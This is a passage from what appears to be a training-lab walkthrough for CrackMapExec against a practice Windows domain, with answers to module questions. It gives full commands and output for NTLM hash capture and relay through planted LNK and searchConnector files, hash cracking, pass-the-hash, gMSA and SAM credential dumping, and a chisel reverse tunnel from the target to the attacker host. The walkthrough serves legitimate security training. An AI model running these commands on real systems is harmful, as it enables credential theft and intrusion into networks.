

The output of `CrackMapExec` reveals the location of the flag:

```shell
cat ~/.nxc/modules/nxc_spider_plus/172.16.1.10.json
```



Finally, students need to download the flag and read it:

```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --share flag --get-file flag.txt flag.txt
cat flag.txt
```



The flag is `U$ing_Pr0xyCh4ins_&_CME`.
# Stealing Hashes

## Question 1

### "Repeat the steps shown in this section to capture the julio user hash. Attempt to Crack julio's password with Hashcat. Submit the password as the answer."

Students first need to connect to the target machine's `chisel` server:

Code: shell

```shell
sudo chisel client STMIP:8080 socks
```



Next, students must ensure that `Responder` is also running on their attack host:

```shell
sudo responder -I tun0
```


The `slinky` module can now be used to save an LNK in the shared folders:


```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o SERVER=10.10.14.171 NAME=important
```



After a few minutes, students should see an NTLM relay in their `Responder`:



Students need to copy the hash to a text file and then crack it with `Hashcat`:

```shell
hashcat -m 5600 julio.hash /usr/share/wordlists/rockyou.txt 
```



After cracking the hash, the plain text password is shown to be `Password1`.


## Question 2

### "Clean the LNK file. Make DONE when finished."

Students need to clean the LNK file:

Code: shell

```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M slinky -o NAME=important CLEANUP=yes
```



Once completed, students need to type `DONE`.

## Question 3

### "Use CrackMapExec to create an LNK or .searchConnector-ms file in the shares and try to relay the NTLMv2 hash to 172.16.1.5. Use the Administrator hash to connect to 172.16.1.5 and submit the contents of the flag in c:\relay\flag.txt as the answer."

Students first need to run `ntlmrelayx.py`, preparing for the internal 172.16.1.5 machine to do an NTLM relay:

```shell-session
sudo proxychains4 -q impacket-ntlmrelayx -t 172.16.1.5 -smb2support --no-http
```



Next, students need to create the `.searchConnector-ms` file and place it on the target:


```shell
proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M drop-sc -o URL=\\\\PWNIP\\secret FILENAME=secret
```



After a few minutes, students need to check the terminal that was running `ntlmrelayx.py`:



Finally, students need to pass the hash to authenticate as the local administrator and read the flag:

```shell
crackmapexec smb STMIP -u Administrator -H 30b3783ce2abf1af70f77d0660cf3453 -x "more C:\relay\flag.txt" --local-auth
```



The flag reads `R3l4y1nG_Is_Fun`.

# Mapping and Enumeration with SMB

## Question 1

### "Which service account other than julio and svc_workstations appears as logged-on in the target machine?"

Students need authenticate as `robert:Inlanefreight01!` and enumerate SMB with the `--loggedon-users` option:

Code: shell

```shell
crackmapexec smb STMIP -u robert -p Inlanefreight01! --loggedon-users
```



The other service account is shown to be `svc_mssql`.

## Question 2

### "Enumerate all computers and identify the one missing in the section example. Submit the computer name as the answer (include the symbol $)."

Students need authenticate as `robert:Inlanefreight01!` and target smb, enumerating computers with the `--computers` option:

Code: shell

```shell
nxc ldap dc01.inlanefreight.htb -u robert -p Inlanefreight01! --computers
```



The other computer not shown in the section is revealed to be `linux01$`.

## Question 3

### "What's the letter of the disk not present in the example?"

Students need to attack smb, authenticating as `robert:Inlanefreight01!` and using the `--disk` option to enumerate drives:

Code: shell

```shell
crackmapexec smb STMIP -u robert -p Inlanefreight01! --disk
```



Students will find the `K` drive not previously shown in the example.

## Question 4

### "Up to how many RIDs does --rid-brute list by default?"

Students need to look at the help options for smb:

Code: shell

```shell
crackmapexec smb --help
```

Mapping and Enumeration with SMB

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-9dtagelt38]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb --help

<SNIP>

  --rid-brute [MAX_RID]
                        enumerate users by bruteforcing RID's (default: 4000)
```

Looking at the information for `--rid-brute`, students will see it lists up to `4000` by default.

## Question 5

### "What's the RID of the object Flag?"

Students need to target smb, authenticating as `robert:Inlanefreight01!` while utilize the `--rid-brute` option:

Code: shell

```shell
crackmapexec smb STMIP -u robert -p Inlanefreight01! --rid-brute
```


The RID for Flag is shown to be `3103`.

# LDAP and RDP Enumeration

## Question 1

### "Which account other than the Guest account does not require a password?"

Students need to authenticate as `robert:Inlanefreight01!` while attacking LDAP and utilizing the `--password-not-required` option:

Code: shell

```shell
crackmapexec ldap dc01.inlanefreight.htb -u robert -p Inlanefreight01! --password-not-required
```


The other account not requiring a password is shown to be `jorge`.

## Question 2

### "To which shared resource does the account that does not have a password have Write and Read access?"

Students need to target smb, authenticating as `jorge` with an empty password while also using the option to list shares:

Code: shell

```shell
crackmapexec smb dc01.inlanefreight.htb -u jorge -p '' --shares
```

LDAP and RDP Enumeration

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-nairjhpquc]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb dc01.inlanefreight.htb -u jorge -p '' --shares

SMB         inlanefreight.htb 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         inlanefreight.htb 445    DC01             [+] inlanefreight.htb\jorge: 
SMB         inlanefreight.htb 445    DC01             [+] Enumerated shares
SMB         inlanefreight.htb 445    DC01             Share           Permissions     

<SNIP>

SMB         inlanefreight.htb 445    DC01             linux01         READ,WRITE      
```

It is revealed that the account has read/write access to the `linux01` share.

## Question 3

### "Identify to which GSMA account jorge has access to read the password."

Students need to target `winrm`, authenticating as `robert:Inlanefreight01!` while running a command, specifically a `PowerShell` cmdlet to identify GMSA password retrieval policy:

Code: shell

```shell
crackmapexec winrm dc01.inlanefreight.htb -u robert -p Inlanefreight01! -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"
```

LDAP and RDP Enumeration

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-nairjhpquc]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec winrm dc01.inlanefreight.htb -u robert -p Inlanefreight01! -X "Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword"

SMB         inlanefreight.htb 5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
HTTP        inlanefreight.htb 5985   DC01             [*] http://inlanefreight.htb:5985/wsman
WINRM       inlanefreight.htb 5985   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
WINRM       inlanefreight.htb 5985   DC01             [+] Executed command
WINRM       inlanefreight.htb 5985   DC01             

DistinguishedName                          : CN=svc_inlaneadm,CN=Managed Service Accounts,DC=inlanefreight,DC=htb
Enabled                                    : True
Name                                       : svc_inlaneadm
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 6328a77f-9696-40b4-82b7-725ac19564b6
PrincipalsAllowedToRetrieveManagedPassword : {CN=engels,CN=Users,DC=inlanefreight,DC=htb}
SamAccountName                             : svc_inlaneadm$
SID                                        : S-1-5-21-3325992272-2815718403-617452758-6123
UserPrincipalName                          : 

DistinguishedName                          : CN=svc_gmsa,CN=Managed Service Accounts,DC=inlanefreight,DC=htb
Enabled                                    : True
Name                                       : svc_gmsa
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 32a13d48-7577-4950-87c8-26f2ef94d271
PrincipalsAllowedToRetrieveManagedPassword : {CN=jorge,CN=Users,DC=inlanefreight,DC=htb}
SamAccountName                             : svc_gmsa$
SID                                        : S-1-5-21-3325992272-2815718403-617452758-7104
UserPrincipalName                          : 
```

Students will discover they can read the password for the `svc_gmsa$` account.

## Question 4

### "Use the service account you found to access the shared folder serviceaccount and read the flag."

Students need to target ldap, authenticating as `jorge` with an empty password while utilizing the `--gmsa` option:

Code: shell

```shell
crackmapexec ldap dc01.inlanefreight.htb -u jorge -p '' --gmsa
```


Next, students will use the Hash along with the `spider_plus` module to enumerate the target further:

Code: shell

```shell
nxc smb dc01.inlanefreight.htb -u svc_gmsa$ -H c59288423280fd215e70754d80dca790 -M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL,linux01,CertEnroll
```


The output is saved to a file:


With the location of the flag revealed, students will use `CrackMapExec` to retrieve the flag and save it to their attack host:


The can finally be read as `Us1nG_S3rv1C3_4Cco7nts_H@$sh4S`.

## Question 5  (Optional)

### "Use --screenshot to take a picture using Julio / Password1 creds, then submit DONE as the answer when finished."

Students need to use `--screenshot` to take a picture using the creds `Julio:Password1` and then type `DONE` when finished:

```shell
nxc rdp dc01.inlanefreight.htb -u julio -p Password1 --screenshot --screentime 5 --res 1280x720
```


# Command Execution

## Question 1

### "Use reg to change the LocalAccountTokenFilterPolicy to 1 and try to execute commands as localadmin:Password99!. Submit the flag located nn the localadmin desktop."

Students need to target smb, authenticating as `administrator:AnotherC0mpl3xP4$$` and making the appropriate change to the registry:

```shell
nxc smb STMIP -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "reg add HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.178 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "reg add HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

SMB         10.129.204.178  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.178  445    MS01             [+] MS01\Administrator:AnotherC0mpl3xP4$$ (Pwn3d!)
SMB         10.129.204.178  445    MS01             [+] Executed command 
SMB         10.129.204.178  445    MS01             The operation completed successfully.
```

Once the operation is completed successfully, students need to now authenticate locally as `localadmin:Password99!` while using command execution to read the flag:

```shell
crackmapexec smb STMIP -u localadmin -p Password99! --local-auth -x "more C:\Users\localadmin\Desktop\flag.txt"
```

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.178 -u localadmin -p Password99! --local-auth -x "more C:\Users\localadmin\Desktop\flag.txt"

SMB         10.129.204.178  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.178  445    MS01             [+] MS01\localadmin:Password99! (Pwn3d!)
SMB         10.129.204.178  445    MS01             [+] Executed command 
SMB         10.129.204.178  445    MS01             N0_M0r3_FilT3r$
```

The flag reads `N0_M0r3_FilT3r$`.

## Question 2

### "Use proxychains to connect to the DC IP 172.16.1.10 and try to login with robert's credentials via SMB. Does robert have privileges to execute commands via SMB? (True or False)"

Students need to download chisel to their attack host and run it as a reverse server:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz -O chisel.gz -q
gunzip chisel.gz
chmod +x chisel 
./chisel server --reverse
```

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz -O chisel.gz -q
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ gunzip chisel.gz 
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ chmod +x chisel 
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ ./chisel server --reverse
2023/01/16 21:45:13 server: Reverse tunnelling enabled
2023/01/16 21:45:13 server: Fingerprint y+fkseezQXLn/1Or4gDTIkjWX6bDGvO6yia9zFC1RZo=
2023/01/16 21:45:13 server: Listening on http://0.0.0.0:8080
```

Next, the `chisel.exe` file must be downloaded:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz -O chisel.exe.gz -q
gunzip -d chisel.exe.gz
```

```shell-session
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz -O chisel.exe.gz -q
┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ gunzip -d chisel.exe.gz 
```

The executable can be placed on the target machine using `CrackMapExec`:

```shell
crackmapexec smb STMIP -u grace -p 'Inlanefreight01!' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe
```

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.178 -u grace -p 'Inlanefreight01!' --put-file ./chisel.exe \\Windows\\Temp\\chisel.exe

SMB         10.129.204.178  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.178  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.178  445    MS01             [*] Copy ./chisel.exe to \Windows\Temp\chisel.exe
SMB         10.129.204.178  445    MS01             [+] Created file ./chisel.exe on \\C$\\Windows\Temp\chisel.exe
```

And then, using command execution, `chisel.exe` can be used to make the target connect back to the attack host:

```shell
crackmapexec smb STMIP -u grace -p 'Inlanefreight01!' -x "C:\Windows\Temp\chisel.exe client PWNIP:8080 R:socks"
```

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.178 -u grace -p 'Inlanefreight01!' -x "C:\Windows\Temp\chisel.exe client 10.10.15.68:8080 R:socks"
SMB         10.129.204.178  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.178  445    MS01             [+] inlanefreight.htb\grace:Inlanefreight01! (Pwn3d!)

[*] completed: 100.00% (1/1)
```

Students need to check their chisel server to ensure that the pivot host has connected:

```shell-session
2023/01/16 21:45:13 server: Reverse tunnelling enabled
2023/01/16 21:45:13 server: Fingerprint y+fkseezQXLn/1Or4gDTIkjWX6bDGvO6yia9zFC1RZo=
2023/01/16 21:45:13 server: Listening on http://0.0.0.0:8080
2023/01/16 21:51:08 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Additionally, `proxychains` must be configured to use port 1080 as a socks5 proxy:

```shell-session
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

Finally, students can enumerate the internal 172.16.1.10 machine:

```shell
 proxychains crackmapexec smb 172.16.1.10 -u robert -p Inlanefreight01!
```

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ proxychains crackmapexec smb 172.16.1.10 -u robert -p Inlanefreight01!
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:135-<><>-OK
SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:445-<><>-OK
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
```

When students try to execute commands, they will find the user cannot, therefore, it is `False`.

## Question 3

### "Use proxychains to connect to the DC IP 172.16.1.10 and try to login with robert's credentials via WINRM. Submit the flag located in robert's desktop."

Taking advantage of the port forwarding that was previously established, students need target `winrm`, authenticating as `robert:Inlanefreight01!` while using command execution to read the flag:

Code: shell

```shell
proxychains crackmapexec winrm 172.16.1.10 -u robert -p Inlanefreight01! -x "more c:\users\robert\Desktop\flag.txt"
```

Command Execution

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ proxychains crackmapexec winrm 172.16.1.10 -u robert -p Inlanefreight01! -x "more c:\users\robert\Desktop\flag.txt"

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:5986-<--timeout
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:5985-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:445-<><>-OK
SMB         172.16.1.10     5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
HTTP        172.16.1.10     5985   DC01             [*] http://172.16.1.10:5985/wsman
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:5985-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.1.10:5985-<><>-OK
WINRM       172.16.1.10     5985   DC01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
WINRM       172.16.1.10     5985   DC01             [+] Executed command
WINRM       172.16.1.10     5985   DC01             R0bert_G3tting_4cc3S

```

The flag reads `R0bert_G3tting_4cc3S`.

## Question 4

### "Copy the file named julio_keys from the target Administrator's desktop and authenticate using the file with SSH. Submit the flag in Julio's desktop."

Code: shell

```shell
crackmapexec smb STMIP -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth --get-file \\Users\\Administrator\\Desktop\\julio_keys julio_keys
ls -la | grep julio
crackmapexec ssh 10.129.204.178 -u julio -p '' --key-file julio_keys -x "more C:\users\julio\desktop\flag.txt"
```

Command Execution

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.204.178 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth --get-file \\Users\\Administrator\\Desktop\\julio_keys julio_keys

SMB         10.129.204.178  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.178  445    MS01             [+] MS01\Administrator:AnotherC0mpl3xP4$$ (Pwn3d!)
SMB         10.129.204.178  445    MS01             [*] Copy \Users\Administrator\Desktop\julio_keys to julio_keys
SMB         10.129.204.178  445    MS01             [+] File \Users\Administrator\Desktop\julio_keys was transferred to julio_keys
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ ls -la | grep julio
-rw-r--r-- 1 htb-ac594497 htb-ac594497     419 Jan 16 22:07 julio_keys
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-gth154ehme]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec ssh 10.129.204.178 -u julio -p '' --key-file julio_keys -x "more C:\users\julio\desktop\flag.txt"

SSH         10.129.204.178  22     10.129.204.178   [*] SSH-2.0-OpenSSH_for_Windows_7.7
SSH         10.129.204.178  22     10.129.204.178   [+] julio: (keyfile: julio_keys) 
SSH         10.129.204.178  22     10.129.204.178   [+] Executed command
SSH         10.129.204.178  22     10.129.204.178   K3y_F1l3s_EveryWh3r3
```

The flag reads `K3y_F1l3s_EveryWh3r3`.

# Finding Secrets and Using Them

## Question 1

### "Extract the local database and submit the user's hash with ID 1006 as the answer."

Students need to target smb, authenticating as `robert:Inlanefreight01!` and utilizing the `--sam` option to dump hashes:

Code: shell

```shell
crackmapexec smb STMIP -u robert -p 'Inlanefreight01!' --sam
```

Finding Secrets and Using Them

```shell-session
(crackmapexec-py3.9) ┌─[us-academy-1]─[10.10.15.68]─[htb-ac594497@htb-0yf7svtvok]─[~/CrackMapExec]
└──╼ [★]$ crackmapexec smb 10.129.19.153 -u robert -p 'Inlanefreight01!' --sam

SMB         10.129.19.153   445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
